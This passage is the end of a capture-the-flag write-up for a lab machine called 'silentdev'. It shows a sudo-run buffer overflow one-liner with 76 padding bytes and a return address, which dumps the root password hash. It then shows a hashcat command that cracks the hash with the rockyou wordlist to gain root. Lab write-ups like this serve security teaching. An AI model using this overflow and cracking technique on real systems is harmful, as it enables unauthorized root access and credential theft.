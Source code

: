 ```
sudo /usr/bin/silentgets <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*76 + b"\x05\x99\x04\x08")')
```

![40](/images/writeups/silentdev/40.png)

We obtain the **root** user’s password **hash**, which we will crack using [**hashcat**](https://hashcat.net/hashcat/).

```
hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
```

![41](/images/writeups/silentdev/41.png)

**Password obtained**! We log in as **root** and finally get the **Root Flag**.

![42](/images/writeups/silentdev/42.png)

Machine completed!!